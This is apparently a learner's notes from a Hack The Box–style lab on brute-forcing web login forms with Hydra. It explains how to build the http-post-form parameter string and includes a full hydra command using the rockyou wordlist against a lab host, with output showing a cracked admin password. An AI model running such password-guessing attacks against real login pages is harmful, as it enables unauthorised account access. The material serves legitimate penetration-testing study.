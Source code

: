     So, our syntax for the `http-post-form` should be as follows:
    
    Code: bash
    
    ```
    "/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
    ```
    
      
    

## Determine Login Parameters

it will take about determining the login parameters

we can do that simply by seeing the request .

`username=admin&password=admin`

so to use it in hydra it will be :

`[username]=^USER^&[password]=^PASS^`

as we can see the written in small is login and in capatal is PASS because it is not written as a wholle word .

To use in a `hydra http-post-form`, we can take it as is, and replace the username/password we used `admin:admin` with `^USER^` and `^PASS^`. The specification of our final target path should be as follows:

Code: bash

```
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

  

## Login Form Attacks

here we are going to talk about the login form attacks

Q: didnot we talk about it before ?

A: Yes, but here we will put it in work

so lets put it in work …

the way of writting the command will be as following

```
hydra -c wordlistpath ip -s port http-post-form "url:username=^USER^&password=^PASS^:F=<form name='login'"
```

```
KareemAlsadeq@htb[/htb]$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```